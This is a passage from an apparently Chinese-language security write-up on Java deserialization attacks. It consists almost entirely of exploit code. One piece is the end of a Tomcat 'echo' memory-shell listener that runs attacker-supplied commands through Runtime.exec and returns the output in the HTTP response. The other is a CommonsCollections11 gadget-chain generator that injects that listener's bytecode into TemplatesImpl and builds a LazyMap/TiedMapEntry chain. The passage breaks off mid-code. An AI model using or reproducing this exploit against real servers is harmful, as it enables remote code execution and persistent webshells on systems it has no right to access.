 ```java
                Response response = request.getResponse();
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                ByteArrayOutputStream bao = new ByteArrayOutputStream();
                byte[] bytes = new byte[1024];
                int a = -1;
                while((a = inputStream.read(bytes))!=-1){
                    bao.write(bytes,0,a);
                }
                response.getWriter().write(new String(bao.toByteArray()));
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

再通过`CommonsCollections11`链加载`TomcatEchoInjectListener`类的字节码生成序列化数据
```java
package com.serialize;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/10/12 15:50
 */
public class CommonsCollections11 {
    public static void main(String[] args) throws Exception{
        CommonsCollections11 commonsCollections11 = new CommonsCollections11();
        commonsCollections11.serialize();
        //commonsCollections11.unserialize();
    }
    public void serialize() throws Exception{
        byte[] classBytes = getBytes();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        // 反射修改
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, targetByteCodes);

        Field name = templates.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "name");

        Field _class = templates.getClass().getDeclaredField("_class");
        _class.setAccessible(true);
        _class.set(templates, null);

        // 创建恶意的调用链
        InvokerTransformer invokerTransformer = new InvokerTransformer("toString",new Class[0], new Object[0]);
        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, invokerTransformer);
        // 创建TiedMapEntry实例
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,templates);
```
